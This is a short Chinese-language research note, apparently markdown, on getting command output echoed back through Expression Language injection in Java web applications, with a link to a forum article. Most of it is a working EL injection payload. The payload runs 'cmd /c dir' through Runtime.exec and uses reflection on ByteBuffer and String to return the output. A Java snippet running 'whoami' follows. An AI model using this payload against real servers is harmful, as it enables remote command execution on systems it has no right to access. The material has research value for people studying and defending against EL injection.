

[普通EL表达式命令回显的简单研究](https://forum.butian.net/share/886)



只能加载这四个包内的class,但是我们可以通过反射加载其他类

```
${
pageContext.setAttribute("inputStream", Runtime.getRuntime().exec("cmd /c dir").getInputStream());
Thread.sleep(1000);
pageContext.setAttribute("inputStreamAvailable", pageContext.getAttribute("inputStream").available());
pageContext.setAttribute("byteBufferClass", Class.forName("java.nio.ByteBuffer"));
pageContext.setAttribute("allocateMethod", pageContext.getAttribute("byteBufferClass").getMethod("allocate", Integer.TYPE));
pageContext.setAttribute("heapByteBuffer", pageContext.getAttribute("allocateMethod").invoke(null, pageContext.getAttribute("inputStreamAvailable")));
pageContext.getAttribute("inputStream").read(pageContext.getAttribute("heapByteBuffer").array(), 0, pageContext.getAttribute("inputStreamAvailable"));
pageContext.setAttribute("byteArrType", pageContext.getAttribute("heapByteBuffer").array().getClass());
pageContext.setAttribute("stringClass", Class.forName("java.lang.String"));
pageContext.setAttribute("stringConstructor", pageContext.getAttribute("stringClass").getConstructor(pageContext.getAttribute("byteArrType")));
pageContext.setAttribute("stringRes", pageContext.getAttribute("stringConstructor").newInstance(pageContext.getAttribute("heapByteBuffer").array()));
pageContext.getAttribute("stringRes")
}
```

> InputStream whoami = Runtime.getRuntime().exec("whoami").getInputStream();
> Thread.sleep(100);
> int whoami1 = whoami.available();
> byte[] array = ByteBuffer.allocate(100).array();
> whoami.read(array, 0, whoami1);
> System.out.println(new String(array));

